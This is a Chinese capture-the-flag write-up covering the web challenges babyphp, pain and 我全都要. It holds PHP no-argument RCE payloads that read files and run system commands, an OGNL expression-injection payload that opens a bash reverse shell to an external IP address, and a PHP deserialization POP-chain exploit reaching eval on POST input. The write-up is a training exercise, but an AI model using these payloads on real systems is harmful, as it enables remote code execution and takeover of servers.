# web
### babyphp
#无参rce 
`command=show_source(array_rand(array_flip(scandir(getcwd()))));`

随机读取当前目录文件
`highlight_file(array_rand(array_flip(scandir(getcwd()))));`
上一级文件
`highlight_file(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));`
读取最后一个get参数
`echo(eval(end(current(get_defined_vars()))));&a=system("cat /secret_you_never_know");`

### pain
#ongl #java 0
表达式注入,使用unicode编码绕过
```shell
(new java.lang.ProcessBuilder(new java.lang.String[]{'bash','-c','bash -i >& /dev/tcp/54.255.166.12/80 0>&1'})).start()
```
先unicode编码后url编码

### 我全都要
```php
<?php
highlight_file(__FILE__);

class B{
    public $pop;
    public $i;
    public $nogame;

    public function __destruct()
    {
        if(preg_match("/233333333/",$this->pop)){
            echo "这是一道签到题，不能让新生一直做不出来遭受打击";
        }
    }

    public function game(){
        echo "扣1送地狱火";
        if ($this->i = "1"){
            echo '<img src=\'R.jpg\'>';
            $this->nogame->love();
        }
    }

    public function __clone(){
        echo "必须执行";
        eval($_POST["cmd"]);
    }
}


class A{
    public $Aec;
    public $girl;
    public $boy;

    // public function __toString()
    // {
    //     echo "I also want to fall in love";
    //     if($this->girl != $this->boy && md5($this->girl) == md5($this->boy)){
    //         $this->Aec->game();
    //     }
    // }


}


class P{
    public $MyLover;
    public function __call($name, $arguments)
    {
        echo "有对象我会在这打CTF???看我克隆一个对象！";
        if ($name != "game") {
            echo "打游戏去，别想着对象了";
            $this->MyLover = clone new B;
        }
    }


}

$a=new B();
$b=new A();
$c=new P();
$d=new B();

$a->pop=$b;
$b->boy=array('a');
$b->girl=array('b');
$b->Aec=$d;
$d->i=1;
$d->nogame=$c;
$c->MyLover=$d;
echo(serialize($a));
```

### DoyouknowCC


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-09-08   14:57